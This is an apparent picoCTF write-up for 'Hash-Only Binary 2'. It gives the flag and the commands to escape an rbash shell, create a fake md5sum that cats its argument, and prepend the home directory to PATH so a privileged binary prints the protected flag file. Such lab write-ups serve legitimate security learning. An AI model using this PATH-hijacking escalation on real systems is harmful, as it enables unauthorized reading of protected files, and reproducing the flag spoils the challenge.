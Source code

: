 # picoCTF Hash-Only Binary 2 Writeup

**Flag**: `picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_fc0640ae}`

## Solution

We start in rbash but can escape with:
```bash
bash
```

This sequel works the same as Hash-Only-1, but the binary executes automatically - we can't interact with it directly.

Create a fake `md5sum` that just cats the file:
```bash
echo '#!/bin/bash' > ~/md5sum
echo 'cat "$1"' >> ~/md5sum
chmod +x ~/md5sum
```

Set PATH and the binary runs automatically:
```bash
PATH=~/:$PATH
```

The `flaghasher` binary executes on its own and outputs the flag instead of the hash.

## Key Points
- Same PATH hijacking technique as Hash-Only-1  
- Binary executes automatically, no manual interaction needed
- Create fake `md5sum` that cats instead of hashing